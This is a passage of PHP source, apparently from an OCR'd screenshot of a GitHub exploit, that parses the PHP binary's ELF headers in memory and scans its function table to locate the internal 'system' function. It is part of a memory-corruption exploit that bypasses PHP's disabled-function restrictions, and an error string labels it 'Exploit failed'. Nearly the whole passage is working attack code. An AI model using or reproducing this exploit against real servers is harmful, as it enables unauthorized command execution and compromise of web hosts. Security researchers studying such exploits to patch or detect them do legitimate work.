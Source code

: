 ```php
        if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
            # handle pie
            $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
            $data_size = $p_memsz;
        } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
            $text_size = $p_memsz;
        }
    }

    if(!$data_addr || !$text_size || !$data_size)
        die('Exploit failed: Unable to parse ELF');

    return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
    list($data_addr, $text_size, $data_size) = $elf;
    for($i = 0; $i < $data_size / 8; $i++) {
        $leak = read($data_addr + $i * 8);
        if($leak - $base > 0 && $leak < $data_addr) {
            $deref = read($leak);
            # 'constant' constant check
            if($deref != 0x746e6174736e6f63)
                continue;
        } else continue;

        $leak = read($data_addr + ($i + 4) * 8);
        if($leak - $base > 0 && $leak < $data_addr) {
            $deref = read($leak);
            # 'bin2hex' constant check
            if($deref != 0x786568326e6962)
                continue;
        } else continue;

        return $data_addr + $i * 8;
    }
}

function get_system($basic_funcs)
{
    $addr = $basic_funcs;
    do {
        $f_entry = read($addr);
        $f_name = read($f_entry, 6);

        if($f_name == 0x6d6574737973) { # system
            return read($addr + 8);
        }
        $addr += 0x20;
    } while($f_entry != 0);
    return false;
}

function get_system_address($binary_leak)
{
    $base = get_binary_base($binary_leak);
    print('ELF base: 0x' .dechex($base) . "\n");
    $elf = parse_elf($base);
    $basic_funcs = get_basic_funcs($base, $elf);
    print('Basic functions: 0x' .dechex($basic_funcs) . "\n");
    $zif_system = get_system($basic_funcs);
    return $zif_system;
}
```